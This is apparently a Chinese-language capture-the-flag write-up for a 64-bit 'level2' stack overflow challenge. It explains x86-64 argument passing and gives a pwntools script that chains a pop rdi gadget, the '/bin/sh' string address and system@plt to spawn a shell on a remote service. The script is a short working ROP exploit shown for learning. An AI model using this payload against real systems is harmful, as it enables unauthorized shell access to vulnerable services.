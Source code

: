 第一步：我们扫描我们的架构是什么，我们发现我们的架构是一个 64 位的程序，所以我们的 payload 构建就要用一些新的东西。


第二步：因为我们是一个六十四位的程序，我们的函数调用与我们的 32 位不同，我们要先调用一个 `pop_rdi_ret` 的 `gadget`,然后我们把我们的参数 `/bin/sh` 压栈后，再把我们的指令压栈。我**们构造的 payload 和我们的 32 位不同**
```python
from pwn import *
io=remote("11.11.11.11",1111)
io.recv()
payload=cyclic(0x88)

```
第三步：通过我们的 `Ropgadget` 来进行我们的查找，我们就可以获得如下的字段。
![[Pasted image 20231204223153.png]]


```python
pop_rdi_ret=0x4006b3
elf=ELF(./level2)
system_plt=elf.plt["system"]
bin_sh=next(elf.search(b"/bin/sh"))
payload+=p64(pop_rdi_ret)+p64(bin_sh)+p64(system_plt)
io.send(payload)
io.interactive()
```


